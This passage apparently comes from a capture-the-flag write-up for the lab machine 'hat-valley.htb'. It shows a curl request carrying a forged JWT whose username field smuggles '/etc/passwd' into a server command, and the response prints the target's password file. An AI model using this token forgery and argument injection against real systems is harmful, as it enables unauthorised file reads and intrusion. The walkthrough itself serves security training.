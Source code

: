 ![jwt-sign.png](jwt-sign.png)  

which means that we now have LFI on the box
```bash
curl -i 'http://hat-valley.htb/api/all-leave' -b 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2NzM3MjAyNTd9.hMapu1pjAQ31z6-DnWiUe42dU5LhfxrafWVcNyoZYps'
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 15 Jan 2023 14:05:12 GMT
Content-Type: application/octet-stream
Content-Length: 3059
Connection: keep-alive
x-powered-by: Express
access-control-allow-origin: *
etag: W/"bf3-PdFG97gBjwRp4RtnVyUN3af1LtA"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
```